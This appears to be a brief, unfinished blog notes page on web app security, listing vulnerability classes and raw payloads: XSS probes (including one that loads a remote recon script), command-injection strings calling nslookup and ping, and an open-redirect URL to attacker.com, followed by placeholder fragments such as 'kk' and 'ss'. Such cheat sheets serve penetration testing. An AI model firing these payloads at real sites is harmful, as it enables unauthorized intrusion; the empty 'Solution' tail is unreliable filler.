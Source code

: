 ```yaml
---
title: "Web App Security"
date: "2019-12-19"
layout: posts

---
```


Cross-site scripting (XSS)
SQL injection
Cross-site request forgery
XML external entity injection
Directory traversal
Server-side request forgery


XSS
    <u>test</u>
    <b>test</b>
    <script>alert(1)</script>
    </script/x>alert(1)</script/x>
    <svg/onload=alert(\"1\")
    <a src=www.google.com>test</a>
    <h1>t</h1>
    <H1>T
    >'>"><img src=x onerror=alert(0)>
    “><img src=x onerror=prompt(document.domain)>

    <script alert(9)</script>.jpeg
    <script>alert(1)</script>
    </script/x>alert(1)</script/x>
    <svg/onload=alert(\"1\")
    xss?name=Bob<script src='https://demoapp.loc/js/script?v=1.7.3.css%2522/>%2527)%3Balert(%2522Yeah!%2520Chaining!%2522)%3B//'></script>
    ?<script src="https://raw.githubusercontent.com/nettitude/xss_payloads/master/recon.php"></script>



Injection
|%7cnslookup%20(collabip)%20%23
%7cping%20-c%2015%20127.0.0.1%20%23

redirect
https://example.com/signup?redirectUrl=https://attacker.com/
inurl:redirectUrl=http site:target.com

test dulu
![source-code](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/finn.jpg){: .align-center}

---

**Solution**


    kk
    ss


`test`


